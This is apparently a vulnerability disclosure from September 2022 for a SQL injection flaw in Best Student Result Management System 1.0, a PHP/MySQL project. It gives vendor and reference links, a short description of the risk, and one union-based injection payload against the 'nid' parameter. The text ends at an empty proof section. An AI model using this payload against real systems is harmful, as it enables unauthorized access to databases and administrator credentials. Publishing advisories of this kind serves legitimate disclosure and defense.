 #### Title: Best Student Result Management System 1.0 SQLi
#### Author: toyydsBT123
#### Date: 15.09.2022
#### Vendor: https://www.sourcecodester.com/users/mayurik
#### Software: https://www.sourcecodester.com/php/15653/best-student-result-management-system-project-source-code-php-and-mysql-free-download
#### Version: 1.0
#### Reference: https://github.com/toyydsBT123/One_of_my_take_on_SourceCodester/blob/main/Best-Student-Result-Management-System_1.0.poc.md
123
#### Description:
### The joint query injects the selected item into the query, and can obtain system information and administrator account password. The SQL injection vulnerability on this page severely compromises the security, confidentiality of the application by exposing the application to administrator level information compromise.

# Status: CRITICAL

### [+] Payloads:

``` 
GET
?nid=2' union all select null,user(),null,null-- -
```

## Proof and Exploit:
